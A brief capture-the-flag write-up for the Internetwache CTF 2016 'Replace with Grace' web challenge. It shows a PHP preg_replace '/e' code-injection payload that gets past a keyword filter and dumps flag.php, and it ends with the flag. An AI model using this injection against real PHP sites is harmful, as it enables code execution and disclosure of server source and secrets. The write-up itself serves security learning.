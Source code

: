 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web, lang/php]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:
```php
/(.*)/e
```

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```php
<?php
var_dump(show_source('flag.php'));
?>
```

A simple, but nice challenge.

```
IW{R3Pl4c3_N0t_S4F3}
```
